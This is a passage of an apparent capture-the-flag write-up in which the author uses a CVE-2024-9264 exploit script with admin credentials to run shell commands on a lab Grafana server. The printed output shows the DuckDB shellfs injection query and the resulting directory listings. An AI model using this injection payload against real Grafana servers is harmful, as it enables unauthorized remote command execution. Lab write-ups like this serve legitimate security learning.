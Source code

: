 Lets also see whats the structure of the directories:

`python CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c "ls -la" http://grafana.planning.htb`

```
[+] Logged in as admin:0D5oT70Fq13EvB5r
[+] Executing command: ls -la
[+] Successfully ran duckdb query:
[+] SELECT 1;install shellfs from community;LOAD shellfs;SELECT * FROM read_csv('ls -la >/tmp/grafana_cmd_output 2>&1 |'):
[+] Successfully ran duckdb query:
[+] SELECT content FROM read_blob('/tmp/grafana_cmd_output'):
total 1268
drwxr-xr-x  1 root    root    4096 Sep  2 15:26 .
drwxr-xr-x  1 root    root    4096 May 14  2024 ..
drwxrwxrwx  2 grafana root    4096 May 14  2024 .aws
-rw-------  1 root    root    1075 Sep  2 14:35 .bash_history
drwxr-xr-x  3 root    root    4096 Mar  1  2025 .duckdb
-rw-r--r--  1 root    root   34523 May 14  2024 LICENSE
-rwxr-xr-x  1 root    root 1188612 Sep  2  2025 abd.elf
drwxr-xr-x  2 root    root    4096 May 14  2024 bin
drwxr-xr-x  3 root    root    4096 May 14  2024 conf
-rw-r--r--  1 root    root    3711 Sep  2 08:52 payload
-rw-r--r--  1 root    root    2123 Sep  2 12:36 pl.pl
drwxr-xr-x 16 root    root    4096 May 14  2024 public
-rw-r--r--  1 root    root    2122 Sep  2 12:34 rev.pl
-rw-r--r--  1 root    root    2131 Sep  2 09:08 revshell.pl
-rw-r--r--  1 root    root    2131 Sep  2 09:08 revshell.pl.1
-rw-r--r--  1 root    root     216 Sep  2  2025 ryuk.sh
-rw-r--r--  1 root    root      54 Sep  2 11:32 shell.sh
-rw-r--r--  1 root    root      54 Sep  2 11:32 shell.sh.1
```

`python CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c "ls ../" http://grafana.planning.htb`

```
[+] Logged in as admin:0D5oT70Fq13EvB5r
[+] Executing command: ls ../
[+] Successfully ran duckdb query:
[+] SELECT 1;install shellfs from community;LOAD shellfs;SELECT * FROM read_csv('ls ../ >/tmp/grafana_cmd_output 2>&1 |'):
[+] Successfully ran duckdb query:
[+] SELECT content FROM read_blob('/tmp/grafana_cmd_output'):
adduser
apport
base-files
base-passwd
bash-completion
bug
ca-certificates
common-licenses
debconf
debianutils
dict
doc
doc-base
dpkg
gcc
gdb
grafana
info
keyrings
libc-bin
lintian
locale
man
```